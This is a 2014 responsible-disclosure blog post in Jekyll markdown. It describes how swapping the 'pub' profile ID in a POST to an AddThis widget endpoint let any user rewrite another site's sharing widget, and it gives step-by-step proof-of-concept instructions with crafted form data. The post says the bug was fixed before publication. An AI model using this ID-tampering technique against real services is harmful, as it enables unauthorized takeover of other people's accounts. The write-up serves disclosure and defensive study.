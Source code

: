```yaml
---
layout: post
title:  "Disclosure: How I'm able to take control of any Addthis.com user account!"
date:   2014-10-11 10:04:22
categories: responsible-disclosure
permalink: post/how-im-able-to-take-control-of-any-addthis-com-account/
---
```


### Description

During publishing this site I've added the Addthis.com plugin (one of the most popular plugin) for sharing content etc.. I'm was surprised when I discovered that I'm able to take complete control of any user account!.

> AddThis is the world's largest content sharing and social insights platform:
>
> 1. Easy-to-use tools help users to share your content and drive viral traffic
> 2. In-depth analytics provide insight into your audience and user activity
> 3. Powerful APIs let you create your own UI, access analytics, and more
> 

### Proof of Concept:

**User_X = ra-5438e922313abc3a** attacker  
**User_Y = ra-538ce0c960e04da4** victim  

`ra-XXXXXXXXXXXXXXXX reference to User ProfileId`

1. **User_X** visit the website of **User_Y** that use **Addthis plugin**  
2. **User_X** inspect the page source code and search for profileid string **ra-538ce0c960e04da4** of **User_Y**
3. **User_X login** into his Addthis.com account (**ra-5438e922313abc3a** was assigned to **User_X**)
4. **User_X** make a **POST Request** to:  
**https://www.addthis.com/meta-data/boost-create-widget** endpoint with **crafted header**  
([Live HTTP Headers](https://addons.mozilla.org/it/firefox/addon/live-http-headers/, "Live HTTP Headers")) using method `boost-create-widget`
5. **Before User_X make a POST Request**, The **pub property** need to be changed with vulnerable site property value (ex. **(User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4**)

<!--r34dm0r3-->

#### Example POST Request Header

{% highlight http %}
Remote Address:208.49.103.220:443
Request URL:https://www.addthis.com/meta-data/boost-create-widget
Request Method:POST
Status Code:200 OK
Request Headersview parsed
POST /meta-data/boost-create-widget HTTP/1.1
Host: www.addthis.com
Connection: keep-alive
Content-Length: 1070
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
[..]
{% endhighlight %}

#### Crafted POST Form Data

{% highlight http %}
pub:ra-538ce0c960e04da4      // (User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4
template:_default
widget[enabled]:true
widget[title]:Follow
widget[size]:large
widget[orientation]:vertical
widget[elements]:.addthis_vertical_follow_toolbox
widget[id]:flwv
widget[services][0][id]:pwned
widget[services][0][service]:facebook
widget[services][0][svc]:facebook
widget[services][0][name]:Facebook
widget[services][0][url]:http://www.facebook.com/pwned
widget[services][1][id]:pwned
widget[services][1][service]:twitter
widget[services][1][svc]:twitter
widget[services][1][name]:Twitter
widget[services][1][url]:http://twitter.com/intent/follow?source=followbutton&variant=1.0&screen_name=pwned
widget[services][2][id]:pwned
widget[services][2][service]:linkedin
widget[services][2][svc]:linkedin
widget[services][2][name]:LinkedIn
widget[services][2][url]:http://www.linkedin.com/in/pwned 
{% endhighlight %}

Now **User_X** receive a `201 response`.  
While in, the **User_Y** website plugin data get updated with **pwned** property value setted by **User_X**.

Note that, a malicious user can perform any request through vulnerable user pub property id value.  
In addition, the website **Addthis.com is devoid largely** of controls **CSRF** for this reason there's no proof of concept, It is really clear..

### Example video scenario using Addthis "/boost-create-widget" method

<div class="photo_frame_center">
	<video width="480" height="360" controls>
		Sorry, your browser doesn't support embedded videos, 
		but don't worry, you can <a href="/video/security/responsible-disclosure/addthis-vulnerability.ogv">Download It</a>
		and watch it with your favorite video player!
		<source src="/video/security/responsible-disclosure/addthis-vulnerability.ogv" type='video/ogg; codecs="theora, vorbis"'>
	</video>
</div>

Watch in <a href="https://www.youtube.com/watch?v=RRkDVY97D88" title="How I'm able to take control of any Addthis.com user account!" target="_blank">YouTube</a>

### Disclosure:

* **10/10/2014** – Report to Addthis Support
* **13/10/2014** – Received a response from Addthis Support
* **14/10/2014** – Reply from Addthis that informs me that the bug was fixed
* **14/10/2014** – Public disclosure
